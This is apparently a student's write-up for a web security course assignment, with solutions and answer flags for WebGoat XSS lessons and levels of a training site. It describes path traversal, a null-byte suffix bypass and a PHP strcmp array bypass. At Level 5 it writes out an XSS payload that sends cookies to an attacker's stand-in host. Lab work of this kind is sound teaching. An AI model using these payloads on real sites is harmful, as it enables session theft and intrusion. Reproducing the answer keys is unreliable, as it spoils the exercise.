 # Assignment 4

* Do the following lessons in WebGoat (you do not have to submit any notes regarding these exercises to blackboard):

	* Cross-Site Scripting (XSS) - Stored XSS attacks

		* ![StoredXSS1](img/stored_xss_1.PNG)
		* ![StoredXSS2](img/stored_xss_2.PNG)

	* Cross-Site Scripting (XSS) - Reflected XSS attacks

		* ![ReflectedXSS](img/reflected_xss.PNG)	

* Do the following three exercises on http://websecurity.cs.ru.nl/
	
	* Level 3

		* http://websecurity.cs.ru.nl/?level=3&nieuws=admin/index.php
		* Solution: YTgwZWM1NDg2

	* Level 4
		* http://websecurity.cs.ru.nl/?level=4&nieuws=admin/index.php%00
		* The appended string "%00" represents the nullbyte (\0) and forces php to ignore every appended string behind it
		* See also: http://stackoverflow.com/questions/12731547/can-an-appended-file-suffix-to-a-parameter-for-file-get-contents-be-bypassed
		* Solution: ZjQ5ZmVlOTZm

	* Level 5

		* Use your own host and the cookie stealer script provided on the websec website.
		* In the searchterm field enter: ``` <script>document.location="http://yourhoster.com/stealer.php?cookie="+document.cookie</script>```
		* Click on the search button and use Webscarab to get the resulting url to the search term.
		* Go to the contact site and enter the before mentioned url you created with your malicious code.
		* Solution: NzM2MGUzMWJh

	* Level 6
		

		* Solution: NDY3YjMwZjRl

	* Level 7

		* There is a bug in the strcmp funtion which cannot handle arrays as input and therefore returns 0 which gives you the solution. Inspect the html source and change the name of the input field "pass" to "pass[]".
		* See also: https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf
		* Solution: YjU1NWY4MzBi

		






	